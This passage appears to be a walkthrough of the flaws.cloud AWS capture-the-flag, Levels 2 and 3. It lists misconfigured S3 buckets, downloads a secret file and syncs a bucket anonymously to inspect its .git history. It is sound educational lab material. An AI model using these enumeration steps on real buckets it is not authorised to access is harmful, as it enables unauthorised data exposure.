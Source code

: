 Try listing the bucket now:

```bash
~ aws s3  --profile liv-test ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-27 02:02:15      80751 everyone.png
2017-03-03 03:47:17       1433 hint1.html
2017-02-27 02:04:39       1035 hint2.html
2017-02-27 02:02:14       2786 index.html
2017-02-27 02:02:14         26 robots.txt
2017-02-27 02:02:15       1051 secret-e4443fc.html
```

And download the secret HTML file:

```bash
~ aws s3  --profile liv-test cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html .
download: s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html to ./secret-e4443fc.html

~ cat ./secret-e4443fc.html
```

## Level 3

<blockquote>
The next level is fairly similar, with a slight twist. Time to find your first AWS key! I bet you'll find something that will let you list what other buckets are.
</blockquote>

First let's look around without authentication:

```bash
~ aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --no-sign-request
                           PRE .git/
2017-02-27 00:14:33     123637 authenticated_users.png
2017-02-27 00:14:34       1552 hint1.html
2017-02-27 00:14:34       1426 hint2.html
2017-02-27 00:14:35       1247 hint3.html
2017-02-27 00:14:33       1035 hint4.html
2017-02-27 02:05:16       1703 index.html
2017-02-27 00:14:33         26 robots.txt
```

There’s a ```.git``` folder. Download the whole bucket to examine it:

```bash
~ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request
```

<div class="box-note">
The CLI command <a href="https://docs.aws.amazon.com/cli/latest/reference/s3/sync.html">sync</a> syncs directories and S3 prefixes. Note that it will recursively copy <i><b>new and updated files</b></i> from the source directory to the destination.
</div>

Check the commit history:
